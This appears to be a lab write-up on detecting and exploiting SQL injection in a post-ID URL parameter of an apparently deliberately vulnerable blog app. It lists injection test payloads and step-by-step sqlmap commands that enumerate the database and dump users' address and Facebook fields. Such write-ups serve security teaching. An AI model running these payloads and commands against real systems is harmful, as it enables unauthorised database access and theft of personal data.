 # SQL injection 

# SQLi in PostURL

## 1. Detect

After watching the post and saw the parameter on the URL varies by post, should see the post can be from the database query according to `id` out.

![image](https://user-images.githubusercontent.com/63194321/133370013-a70c910b-8a60-4fbd-a680-64603899d327.png)

We will check in this location.

First, we will test by appending a quote character `'` after the parameter

![image](https://user-images.githubusercontent.com/63194321/133370885-897e59e2-d252-4d6b-a149-1edb82826ca4.png)

The return result is an error message. So pretty sure there's an SQLi vulnerability here.

![image](https://user-images.githubusercontent.com/63194321/133391406-72020e06-d044-4b9a-a2c9-48aae1e99cff.png)

To be more sure, we will send a more complex payload `1 or 1=1`.

The result returns all the articles in the database. So this is definitely an `SQli vulnerability`

On the other hand, to determine which type of SQLi it is, we will need to check a few more payloads.

If we add the payload `1 AND true=true`, the website results are still normal. This is a `boolean-base blind` which is a form of `blind SQLi`.

![image](https://user-images.githubusercontent.com/63194321/133391554-96cd5a80-a965-44da-b279-c4191f8ebe10.png)

We have identified the type and location of vulnerabilities, then we will exploit them next.


## 2. Exploit 

Now we will use a tool called `SQl map` to exploit the vulnerability.

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch`

![image](https://user-images.githubusercontent.com/63194321/132514620-a0461970-1a66-4020-b964-d29e07edc21d.png)

**B2.** Define a list of databases:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -dbs`

![image](https://user-images.githubusercontent.com/63194321/132514974-21d6fb4f-a28f-4a49-98d4-b06a6f421684.png)

**B3.** Identify the tables in the database:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132515143-ab63af90-e875-482c-a97d-260182a9fd1d.png)

**B4.**  Define columns in tables:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -columns`

![image](https://user-images.githubusercontent.com/63194321/132515937-1002ad48-2c16-45fe-a06b-573d4ab3373b.png)


**B5.** Get the address value, facebook link of users.

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -C address,facebook --dump`

![image](https://user-images.githubusercontent.com/63194321/132516371-564f7d1e-d631-412c-a24e-2032a255b77e.png)
